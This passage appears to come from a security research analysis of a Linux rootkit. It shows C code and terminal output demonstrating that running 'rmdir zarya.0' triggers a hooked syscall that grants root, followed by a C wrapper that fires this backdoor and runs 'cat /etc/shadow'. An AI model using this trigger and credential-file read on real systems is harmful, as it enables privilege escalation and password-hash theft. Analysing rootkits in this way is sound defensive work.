 ``` c
uid_t fsuid = setfsuid(-1);  // Filesystem user ID
gid_t fsgid = setfsgid(-1);  // Filesystem group ID

printf("Credentials: UID=%d, EUID=%d, GID=%d, EGID=%d, FSUID=%d, FSGID=%d\n",
    ruid, euid, rgid, egid, fsuid, fsgid);

[...]
```

Executing the function, we can the following output:

``` bash
ubuntu-rk:~/testing$ whoami;id
ruben
uid=1000(ruben) gid=1000(ruben) groups=1000(ruben),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),117(lxd)

ubuntu-rk:~/testing$ ./rmdir zarya.0
Received data:
zarya.0
Current PID: 41838, SID: 35117, GID: 0
Credentials: UID=0, EUID=0, GID=0, EGID=0, FSUID=0, FSGID=0
```

To leverage this hook, we wrote a small C wrapper script that executes the `rmdir zarya.0` command and checks whether it can now access the `/etc/shadow` file. 

``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <errno.h>

int main() {
    const char *directory = "zarya.0";

    // Attempt to remove the directory
    if (syscall(SYS_rmdir, directory) == -1) {
        fprintf(stderr, "rmdir: failed to remove '%s': %s\n", directory, strerror(errno));
    } else {
        printf("rmdir: successfully removed '%s'\n", directory);
    }

    // Execute the `id` command
    printf("\n--- Running 'id' command ---\n");
    if (system("id") == -1) {
        perror("Failed to execute 'id'");
        return 1;
    }

    // Display the contents of /etc/shadow
    printf("\n--- Displaying '/etc/shadow' ---\n");
    if (system("cat /etc/shadow") == -1) {
        perror("Failed to execute 'cat /etc/shadow'");
        return 1;
    }

    return 0;
}
```
